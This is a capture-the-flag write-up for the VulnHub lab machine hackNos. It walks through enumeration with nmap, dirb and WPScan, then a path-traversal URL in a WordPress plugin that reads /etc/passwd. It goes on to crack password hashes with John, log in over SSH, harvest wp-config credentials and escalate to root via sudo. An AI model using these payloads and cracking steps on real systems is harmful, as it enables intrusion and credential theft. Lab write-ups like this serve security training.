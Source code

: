 ```yaml
---
published: true
title: Hack Nos
author: F3dai
image: 'https://imgur.com/DhdkXVo.png'
category: Writeup
---
```


2 Flag first user And second root, learning: exploit, Web Application, Enumeration, Privilege Escalation - www.hackNos.com. Format: Virtual Machine (Virtualbox - OVA). Operating System: Linux. Date release: 27 Nov 2019

**URL:** [mhz_cxf: c1f](https://www.vulnhub.com/entry/hacknos-os-hacknos,401/)

**Difficulty:** Easy

**Author:** hackNos: Os-hackNos

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host-Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![net](https://imgur.com/jCliSJM.png)

We can identify the machine with the IP 192.168.56.117, so we will scan it for open ports with nmap to a file named "nmap" with the following command:

<pre>nmap -sS -p- -A -o "nmap" 192.168.56.117</pre>

To start, port 80 is open so we will investigate this port with a browser.

![apache](https://imgur.com/DhdkXVo.png)

There is not much to see, this is the default Apache web page meaning there is probably another web page we are not seeing.

Let's run a dirb scan to discover more paths we can further enumerate with the following command:

<pre>dirb http://192.168.56.117/ </pre>

![dirb](https://imgur.com/cFsXjzN.png)

One of the results that have been returned is /tsweb so let's see what is on there:

![tsweb](https://imgur.com/ebcljVN.png)

This is clearly a Wordpress site so let's run a scan with WPScan. Please note, the newer version of WPScan requires an API token to view the vulnerabilities you can get from their website. 

The following command will scan the site and hopefully return any users, vulnerable plugins and vulnerable themes:

<pre>wpscan wpscan --url http://192.168.56.117/tsweb/ -e u,vp,vt </pre>

![wpscan users](https://imgur.com/bWLLpQs.png)

We have found a user called "user". This is worth noting.

We have also identified a vulnerable plugin called gracemedia-media-player which is susceptible to LFI. 

![vp](https://imgur.com/gRPHYB0.png)

The exploit:

<pre>Title: GraceMedia Media Player 1.0 - Local File Inclusion (LFI)

require_once($_GET['cfg']); The parameter "cfg" it is not sanitized allowing include local files on /gracemedia-media-player/templates/files/ajax_controller.php
</pre>

A link to the exploit DB page: [ExploitDB](https://www.exploit-db.com/exploits/46537)

LFI is usually an exploit for attackers with authenticated access, meaning we need to be authenticated as a user or admin for this Wordpress site. 

Initially, I tried brute-forcing the password since Wordpress has an easy brute-force function with the following command:

<pre>wpscan --url http://192.168.56.117/tsweb --passwords /usr/share/wordlists/rockyou.txt --usernames user</pre>

This would essentially use the rockyou.txt wordlist against the username "user" to see if any would work. 

This did not work, so I tried to look into the /etc/passwd directory with Path Traversal. Read more about this on [OWASP](https://owasp.org/www-community/attacks/Path_Traversal).

This was also given in the POC (Proof of Concept) in the exploit.

Visiting the following URL allows us to view the passwd file of the system:

<pre> http://192.168.56.117/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd </pre>

![passwd](https://imgur.com/3obLd4H.png)

This is to further investigate. Flag is a user with a hash value associated with it.

<pre>$1$flag$vqjCxzjtRc7PofLYS2lWf/</pre>

Let's try and crack this md5 hash. I added this hash to a file named "hash" and asked John to crack it.

<pre>echo "$1$flag$vqjCxzjtRc7PofLYS2lWf" > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash</pre>

![john](https://imgur.com/0p82yTV.png)

We got a password!

<pre>topsecret</pre>

Let's try ssh into the machine with the following command:

<pre>ssh flag@192.168.56.117</pre>

![ssh](https://imgur.com/04ugvzk.png)

We are logged in as flag.

### Privilege Escalation

The change directory command is restricted so we will have to use ls to discover what is on the system.

![cd](https://imgur.com/KKPefEh.png)

I checked the Wordpress config file and found database credentials worth noting:

<pre>cat var/www/html/tsweb/wp-config.php</pre>

![config](https://imgur.com/rp6R2HV.png)

Some more enumeration on the system reveals something interesting in the backup directory:

<pre>ls -la /var/backups/passbkp</pre>

![backup](https://imgur.com/lbpW0Nk.png)

Let's crack this md5 hash like before. Again I save it to a file called hash.

<pre>john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt hash</pre>

And the following password has been found:

<pre>!%hack41</pre>

We will try ssh into another user called Rohit. This user was identified from the /home directory.

<pre>ssh Rohit@192.168.56.117</pre>

Let's check sudo Privileges:

<pre>sudo -l</pre>

Rohit clearly has all sudo privileges, so running the following command should give us root:

<pre>sudo /bin/bash</pre>

And we have root!

<pre>id
cd /root
ls</pre>

![sudo](https://imgur.com/RovwWeg.png)
